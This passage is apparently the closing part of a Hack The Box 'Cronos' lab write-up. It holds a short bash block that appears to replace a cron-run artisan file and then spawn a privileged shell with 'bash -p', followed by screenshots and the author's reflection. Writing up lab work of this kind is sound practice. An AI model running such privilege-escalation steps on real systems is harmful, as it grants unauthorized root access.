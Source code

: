 ```bash
rm artisan
nano !$
cat !$
watch -n 1 ls -l /bin/bash

bash -p
```

<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> It was a great experience to successfully engage this **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** lab, the machine is perfect to understand different vulnerabilities and multiple attack vectors, you can also create tools to automate tasks and polish your scripting skills. I continue with my hype to face the available labs, so I'm going to kill this box and look for the new challenge.

<br /><br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
